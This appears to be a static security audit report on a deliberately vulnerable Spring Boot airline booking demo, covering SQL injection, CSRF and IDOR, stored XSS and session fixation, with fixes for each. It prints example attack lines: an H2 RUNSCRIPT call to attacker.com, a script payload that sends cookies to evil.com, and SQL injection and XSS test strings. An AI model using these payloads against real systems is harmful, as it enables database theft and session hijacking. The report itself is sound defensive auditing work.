


# Chained Vulnerability Audit Report — Airline Booking System (app-07)

**Date:** 2026-05-25  
**Project:** app-07-airline-booking (Spring Boot 3.2.5, Java 17, H2, JPA, Thymeleaf)  
**Reviewer:** CodeGopher (static-only chained vulnerability audit)  
**Scope:** All files under `src/`, `Dockerfile`, `pom.xml`  

---

## Summary Dashboard

| Metric | Value |
|---|---|
| Total chained vulnerabilities detected | **4** |
| Maximum severity | **CRITICAL** |
| Medium-severity chains | **1** |
| Cross-cutting weaknesses (non-chained) | **7** |
| Areas not reviewed | None (full source coverage) |

---

## Methodology & Static-Only Safety Note

This audit is a **static-only review**. No live HTTP probes, SQL injection payloads, dynamic scanners, exploit scripts, or external network tests were executed. All findings are derived from source code analysis, configuration review, and data-flow tracing. Remediation guidance targets the weakest link in each chain.

---

## Architecture Overview

```
┌──────────────┐     ┌──────────────────────────┐     ┌──────────┐
│   Browser    │────▶│  Spring Boot 3.2.5 App   │────▶│    H2    │
│  (Client)    │     │  (Port 8081, JVM)        │     │  In-Mem  │
└──────────────┘     │                          │     └──────────┘
                     │  SecurityFilterChain     │
                     │  - CSRF: DISABLED        │
                     │  - H2 Console: ENABLED   │
                     │  - Session Fixation: none│
                     └──────────────────────────┘
```

**Key endpoints exposed publicly:**
- `GET /` — Home (login + flight search)
- `POST /register` — Passenger self-registration
- `GET /api/flights/search` — Public flight search
- `GET /h2-console/**` — H2 web console

**Authenticated endpoints (any logged-in passenger):**
- `POST /api/bookings` — Create booking
- `GET /api/bookings/{pnr}` — View booking by PNR
- `GET /api/bookings/history` — View own booking history
- `PUT /api/bookings/{pnr}/cancel` — Cancel booking by PNR
- `GET /api/bookings/{pnr}/boarding-summary` — Boarding summary

**Staff-only:**
- `GET /api/flights` — List all flights
- `PUT /api/flights/{id}` — Update flight

---

## Chain 1: SQL Injection → Database Exfiltration / Remote Code Execution

### Severity: CRITICAL | Confidence: HIGH

### Mermaid Attack Graph
```mermaid
flowchart LR
    A["Client sends origin/destination/date params\n(FlightController.search)") --> B["FlightService.searchFlights\n(delegates to FlightSearchDao)")
    B --> C["FlightSearchDao.searchFlights\n(String concatenation, no parameterization)")
    C --> D["JdbcTemplate.query\n(raw SQL executed against H2)")
    D --> E["H2 Database\n(In-memory, with web console enabled)")
    E --> F["Data Exfiltration\nor RCE via H2 ");
```

### Detailed Breakdown

**Entry Point / Source:**
- **File:** `src/main/java/com/airline/repository/FlightSearchDao.java`, lines 16–20
- **Code:**
  ```java
  String sql = "SELECT * FROM flights WHERE origin = '" + origin
             + "' AND destination = '" + destination
             + "' AND CAST(departure_time AS DATE) = '" + date + "'";
  ```
- **Evidence:** User-controlled parameters `origin`, `destination`, and `date` are directly concatenated into a SQL string via `+` operator. No `PreparedStatement`, no parameter binding, no input sanitization.

**Reachability (Entry):**
- **File:** `src/main/java/com/airline/controller/FlightController.java`, lines 29–36
- The `@GetMapping("/search")` endpoint accepts three `@RequestParam` strings (`origin`, `destination`, `date`) and passes them directly to `flightService.searchFlights()`.
- **This endpoint is public** — listed in `SecurityConfig.java` line 38 as `.permitAll()`. No authentication required.

**Intermediate Weakness (Hop):**
- **File:** `src/main/java/com/airline/config/SecurityConfig.java`, lines 42–44
  - `spring.h2.console.enabled=true` and `spring.h2.console.settings.web-allow-others=true` in `application.properties`
  - `.headers(headers -> headers.frameOptions(frame -> frame.disable()))` in SecurityConfig
  - This allows the H2 web console to be accessed from any origin, including remote attackers.

**Critical Sink:**
- H2 database engine supports `CREATE ALIAS` and `RUNSCRIPT FROM URL` features that can be used for **remote code execution** when accessed via the web console or through SQL injection.
- Combined with SQL injection in `FlightSearchDao`, an attacker can:
  1. Inject SQL via the public search endpoint to exfiltrate all data from the `flights`, `bookings`, `passengers`, and `seats` tables.
  2. If the H2 console is reachable (web-allow-others + frame-options disabled), additional attack vectors open including **classpath scanning**, **SCRIPT commands**, and potential **RCE** via H2's built-in Java integration.

**Impact:**
- Full data exfiltration from the application database, including all passenger PII (names, passport numbers, phone numbers, emails, roles).
- Potential RCE via H2 database features (e.g., `RUNSCRIPT FROM 'http://attacker.com/script.sql'`).
- Unauthorized access to `AIRLINE_STAFF` credentials (bcrypt hashes) which may be offline-crackable.

**Remediation (easiest link to break):**
1. **Replace string concatenation with parameterized queries** in `FlightSearchDao.java`:
   ```java
   String sql = "SELECT * FROM flights WHERE origin = ? AND destination = ? AND CAST(departure_time AS DATE) = ?";
   return jdbcTemplate.query(sql, new Object[]{origin, destination, date}, new FlightRowMapper());
   ```
2. Disable H2 web console in production: `spring.h2.console.enabled=false`

---

## Chain 2: CSRF-Disabled + Horizontal IDOR on Booking Cancel → Unauthorized Cancellation

### Severity: HIGH | Confidence: HIGH

### Mermaid Attack Graph


### Detailed Breakdown

**Entry Point / Source:**
- **File:** `src/main/java/com/airline/controller/BookingController.java`, lines 57–66
- **Endpoint:** `PUT /api/bookings/{pnr}/cancel`
- **Code:**
  ```java
  @PutMapping("/{pnr}/cancel")
  public ResponseEntity<Void> cancel(
          @PathVariable String pnr,
          @AuthenticationPrincipal UserDetails userDetails) {
      if (userDetails == null) {
          return ResponseEntity.status(HttpStatus.UNAUTHORIZED).build();
      }
      try {
          bookingService.cancelBooking(pnr, userDetails.getUsername());
          return ResponseEntity.ok().build();
      } catch (Exception e) {
          return ResponseEntity.badRequest().build();
      }
  }
  ```

**Intermediate Weakness 1 (Authorization Bypass):**
- **File:** `src/main/java/com/airline/service/BookingService.java`, lines 69–90
- The `cancelBooking` method checks `!booking.getPassenger().getEmail().equals(passengerEmail)` — an email-based ownership check.
- However, the PNR is used as the direct path to the resource. An attacker can **enumerate PNRs** because:
  - `GET /api/bookings/{pnr}` (lines 43–54) only checks if the requesting user's email matches the booking's passenger email. If the attacker knows a victim's PNR (e.g., from UI, email, or brute force), and happens to share the same email, they can access it. But more critically:
  - The PNR format is `BK000001`, `BK000002`, etc. — **sequentially incrementing** (see `PnrGenerator.java`).

**Intermediate Weakness 2 (CSRF Disabled):**
- **File:** `src/main/java/com/airline/config/SecurityConfig.java`, line 32
  ```java
  .csrf(csrf -> csrf.disable()) // Disable CSRF to ease API testing and demonstration
  ```
- No CSRF tokens are required for any endpoint, including state-changing PUT endpoints.

**Critical Sink:**
- **File:** `src/main/java/com/airline/support/ReferenceGuards.java` — The `ReferenceGuards.sameOwner()` utility method exists but is **never called** by `BookingService` or any controller. The only authorization is a weak email comparison.
- The PUT endpoint `PUT /api/bookings/{pnr}/cancel` combined with CSRF disabled allows **Cross-Site Request Forgery** attacks. An attacker can craft a malicious page that sends a PUT request to `/api/bookings/{pnr}/cancel` and, if the victim has an active session, their booking will be cancelled.

**Impact:**
- Any authenticated user can cancel any booking if they know the PNR (which is trivially guessable due to sequential generation).
- The email check in `cancelBooking` does not prevent this because the attacker IS authenticated — just as the wrong user.

**Remediation:**
1. **Re-enable CSRF protection** in `SecurityConfig.java` or at minimum add CSRF tokens to state-changing endpoints.
2. **Add ownership check in the controller layer** for the cancel endpoint, not just the service layer:
   ```java
   bookingService.cancelBooking(pnr, userDetails.getUsername());
   ```
   should verify that the PNR belongs to the authenticated user BEFORE calling the service.
3. **PBRN generator is predictable** — consider making PNRs non-sequential, unpredictable identifiers.

---

## Chain 3: Stored XSS via Passenger Name → Boarding Pass / Summary Disclosure

### Severity: HIGH | Confidence: HIGH

### Mermaid Attack Graph
```mermaid
flowchart LR
    A["Victim registers with crafted name\n(e.g., <script>alert(1)</script>)"] --> B["Passenger.firstName stored in DB\n(No sanitization)")
    B --> C["Booking created with this passenger"]
    C --> D["GET /api/bookings/{pnr}/boarding-summary\n(Responses to any authenticated user)"]
    D --> E["Response contains <strong>Passenger:</strong> <script>alert(1)</script>"]
    E --> F["Any authenticated user sees XSS payload\nin browser rendering"]
    F --> G["Cookie theft, session hijacking, phishing"]
```

### Detailed Breakdown

**Entry Point / Source (Data Entry):**
- **File:** `src/main/java/com/airline/controller/HomeController.java`, lines 44–67
- `@PostMapping("/register")` accepts `@RequestParam String firstName` and `@RequestParam String lastName` and stores them directly in the `Passenger` entity with **no sanitization or encoding**.
- **File:** `src/main/resources/templates/register.html` — Client-side has no input sanitization; standard HTML form submission.

**Intermediate Weakness (Authorization Flaw):**
- **File:** `src/main/java/com/airline/controller/BookingController.java`, lines 68–81
  ```java
  @GetMapping("/{pnr}/boarding-summary")
  public ResponseEntity<?> getBoardingSummary(
          @PathVariable String pnr,
          @AuthenticationPrincipal UserDetails userDetails) {
      if (userDetails == null) {
          return ResponseEntity.status(HttpStatus.UNAUTHORIZED).build();
      }
      return bookingService.getBookingByPnr(pnr)
              .map(booking -> ResponseEntity.ok(Map.of(
                      "pnr", booking.getPnr(),
                      "passengerDisplay", "<strong>Passenger:</strong> " + booking.getPassenger().getFullName(),
                      "flight", booking.getFlight().getFlightNumber(),
                      "seatNumber", booking.getSeat().getSeatNumber(),
                      "status", booking.getStatus()
              )))
              .orElse(ResponseEntity.notFound().build());
  }
  ```
- The `boarding-summary` endpoint has **no authorization check** — any authenticated user can fetch any booking by PNR. The only guard is that the user must be logged in.
- The `passengerDisplay` field concatenates the passenger's full name directly into the response string with HTML markup (`<strong>`), and there is **no output encoding**.

**Critical Sink:**
- If the stored name contains XSS payloads (e.g., `<script>document.location='http://evil.com/?c='+document.cookie</script>`), these will be delivered in the JSON response.
- If any client-side consumer (JavaScript on the dashboard or seat-map pages) renders this response via `innerHTML` or similar unescaped DOM insertion, the XSS will execute.
- Note: The `dashboard.html` template (line 80+) dynamically inserts booking data via JavaScript:
  ```javascript
  tr.innerHTML = `...${booking.pnr}...${booking.seat.seatNumber}...`;
  ```
  While this doesn't directly reference `passengerDisplay`, if a malicious user's name is displayed anywhere (e.g., in search results or other views), it could be rendered unsafely.

**Impact:**
- Any authenticated user can trigger XSS against other authenticated users by:
  1. Registering with a malicious name.
  2. Having someone book a flight.
  3. Accessing the booking's boarding summary.
- If the response is rendered in any HTML context, session hijacking, credential theft, or admin impersonation could follow.

**Remediation:**
1. **Sanitize input at registration** — reject or HTML-encode `firstName` and `lastName`.
2. **Return structured data** in the API response instead of pre-formatted HTML (`passengerDisplay`).
3. **Add authorization check** to `boarding-summary` endpoint — only allow access to the booking owner or staff.
4. **Use `ModelAndView` or Thymeleaf templates** with built-in auto-escaping instead of raw HTML concatenation in JSON responses.

---

## Chain 4: Session Fixation + CSRF-Disabled + Predictable PNR → Account Takeover / Full Session Hijack

### Severity: MEDIUM | Confidence: HIGH

### Mermaid Attack Graph


### Detailed Breakdown

**Entry Point / Source:**
- **File:** `src/main/java/com/airline/config/SecurityConfig.java`, lines 45–47
  ```java
  .sessionManagement(session -> session
      .sessionFixation(fixation -> fixation.none())
  )
  ```
- Setting session fixation strategy to `none` means Spring Security will **not** create a new session after authentication. If an attacker pre-sets a session cookie before the victim logs in, the attacker retains access after login.

**Intermediate Weakness 1 (CSRF Disabled):**
- Same as Chain 2 — `.csrf(csrf -> csrf.disable())` in `SecurityConfig.java` line 32.

**Intermediate Weakness 2 (Predictable PNR):**
- **File:** `src/main/java/com/airline/service/PnrGenerator.java`, lines 8–10
  ```java
  private static final AtomicInteger counter = new AtomicInteger(1);
  public String generate() {
      return String.format("BK%06d", counter.getAndIncrement());
  }
  ```
- PNRs are sequentially incrementing: `BK000001`, `BK000002`, etc.

**Critical Sink:**
- An attacker who has performed session fixation can:
  1. Use the hijacked session to access `GET /api/bookings/history` (view all victim's bookings).
  2. Use known PNRs to access `GET /api/bookings/{pnr}` (detailed booking info).
  3. Use CSRF to send `PUT /api/bookings/{pnr}/cancel` from the victim's browser to cancel flights.
  4. Access `GET /api/bookings/{pnr}/boarding-summary` to view boarding details.

**Impact:**
- Complete access to victim's booking history, flight details, seat assignments, and boarding information.
- Ability to cancel bookings on behalf of the victim.
- Potential escalation if staff credentials are cracked.

**Remediation:**
1. Change session fixation strategy to `newSession`:
   ```java
   .sessionManagement(session -> session
       .sessionFixation(fixation -> fixation.newSession())
   )
   ```
2. This is the Spring Security default — explicitly setting `none` is dangerous.
3. The comment "to allow benchmarking session hijacking" suggests this is intentional for a demo/CTF scenario. For production, revert this.

---

## Cross-Cutting Weaknesses (Not Part of Complete Chains)

### Weakness W1: H2 Console Exposed to Network
- **File:** `src/main/resources/application.properties`, lines 5–7
- `spring.h2.console.enabled=true`, `spring.h2.console.path=/h2-console`, `spring.h2.console.settings.web-allow-others=true`
- Combined with `.headers(headers -> headers.frameOptions(frame -> frame.disable()))` in SecurityConfig.java, this allows full database access from any origin.
- **Impact:** Full database read/write, potentially RCE via H2 scripting features.

### Weakness W2: Verbose Error Messages in API
- **File:** `src/main/java/com/airline/controller/BookingController.java`, lines 27–29
  ```java
  } catch (Exception e) {
      return ResponseEntity.badRequest().body(new BookingResponse(null, e.getMessage()));
  }
  ```
- **File:** `src/main/java/com/airline/controller/CheckInController.java`, line 33
  ```java
  return ResponseEntity.badRequest().body(e.getMessage());
  ```
- Raw exception messages are returned to clients. Could leak internal implementation details, database structure, or stack traces.

### Weakness W3: No Rate Limiting on Authentication
- **File:** `src/main/java/com/airline/config/SecurityConfig.java`
- No account lockout, brute-force protection, or rate limiting on login endpoint.
- Combined with the demo credentials published on `home.html` (line: "Quick Demo Accounts" with email/password), a local attacker could attempt to brute-force other user accounts.

### Weakness W4: CSRF-Disabled State-Changing Endpoints
- **File:** `src/main/java/com/airline/config/SecurityConfig.java`, line 32
- `csrf.disable()` applies globally. State-changing endpoints (`POST /api/bookings`, `PUT /api/bookings/{pnr}/cancel`, `POST /api/checkin/{pnr}`, `POST /register`) are all CSRF-vulnerable.

### Weakness W5: No Input Validation on Flight Update Endpoint
- **File:** `src/main/java/com/airline/controller/FlightController.java`, lines 50–56
- Staff-only `PUT /api/flights/{id}` accepts a `Map<String, Object>` payload and directly sets flight properties from unvalidated user input.
- `flight.setFlightNumber((String) payload.get("flightNumber"))` — no type checking, no length validation, no range checks on price.

### Weakness W6: No Input Validation on Registration
- **File:** `src/main/java/com/airline/controller/HomeController.java`, lines 44–67
- `passportNumber` and `phone` are optional but unsanitized. `firstName`/`lastName` are unsanitized (see XSS chain above). No email format validation beyond HTML5 `type="email"`.

### Weakness W7: Hardcoded Demo Credentials Visible in Source
- **File:** `src/main/resources/templates/home.html`
- Demo account credentials are displayed on the login page:
  ```
  • passenger: john@gmail.com / john123
  • staff: staff@airline.com / staff123
  ```
- Combined with predictable password hashes (BCrypt, but the plaintext is in plain sight), this facilitates authorized reconnaissance.

---

## Remediation Priority Matrix

| Priority | Chain / Weakness | Easiest Fix | File |
|----------|------------------|-------------|------|
| P0 | Chain 1: SQL Injection | Parameterize query | `FlightSearchDao.java:16-20` |
| P0 | W1: H2 Console exposed | Set `spring.h2.console.enabled=false` | `application.properties` |
| P1 | Chain 2: CSRF + IDOR on cancel | Add ownership check in controller; re-enable CSRF | `SecurityConfig.java:32`, `BookingController.java:57` |
| P1 | Chain 3: Stored XSS | Sanitize input; return structured JSON | `HomeController.java:53-54`, `BookingController.java:73` |
| P2 | Chain 4: Session Fixation | Use `newSession()` | `SecurityConfig.java:45-47` |
| P2 | W5: Flight update injection | Add input validation | `FlightController.java:50-56` |
| P3 | W2, W3, W4, W6, W7 | Standard hardening | Various |

---

## Unknowns & Recommendations for Testing

### Not Fully Verifiable from Source Alone:
1. **Runtime H2 RCE:** Whether the H2 console supports `RUNSCRIPT` in the specific H2 version bundled with Spring Boot 3.2.5.
2. **Client-side rendering of API responses:** Whether the JavaScript in `dashboard.html` or `seat-map.js` uses `innerHTML` with unsanitized user data from the API (the booking history render uses template literals with `${booking.pnr}`, etc., which would be XSS-vulnerable if any of those fields contained HTML).
3. **Session cookie security flags:** Whether `Secure`, `HttpOnly`, and `SameSite` attributes are configured on the session cookie.

### Tests That Should Be Added:
1. **SQL Injection test:** `GET /api/flights/search?origin=' OR 1=1--&destination=X&date=2024-01-01` should return all flights or an error, not a SQL exception with stack trace.
2. **CSRF test:** Verify that `PUT /api/bookings/{pnr}/cancel` from a different origin without CSRF token is rejected.
3. **Session fixation test:** Verify that session ID changes after login.
4. **Authorization test:** Verify that a passenger cannot cancel another passenger's booking even with a known PNR.
5. **XSS test:** Register with `<script>alert(1)</script>` as a name and verify it's encoded in all API responses and HTML pages.
6. **H2 Console test:** Verify H2 console is not accessible from outside localhost.

---

## Areas Reviewed (Full Coverage)

| Component | Files Reviewed |
|-----------|---------------|
| Application entry point | `App07Application.java` |
| Configuration | `SecurityConfig.java`, `DataInitializer.java`, `application.properties` |
| Controllers | `BookingController.java`, `CheckInController.java`, `FlightController.java`, `HomeController.java`, `WebController.java` |
| Services | `BookingService.java`, `CheckInService.java`, `FlightService.java`, `PnrGenerator.java` |
| Models/Entities | `Booking.java`, `Flight.java`, `Passenger.java`, `Seat.java` |
| Repositories | `BookingRepository.java`, `FlightRepository.java`, `FlightSearchDao.java`, `PassengerRepository.java`, `SeatRepository.java` |
| DTOs | `BookingRequest.java`, `BookingResponse.java`, `FlightSearchRequest.java`, `FlightSearchResult.java` |
| Templates (HTML) | `boarding-pass.html`, `checkin.html`, `dashboard.html`, `home.html`, `register.html`, `seat-map.html` |
| Static assets | `flight-search.js`, `seat-map.js`, `main.css` |
| Tests | `App07ApplicationTests.java` |
| Build/Deploy | `pom.xml`, `Dockerfile` |

---

*End of Report*
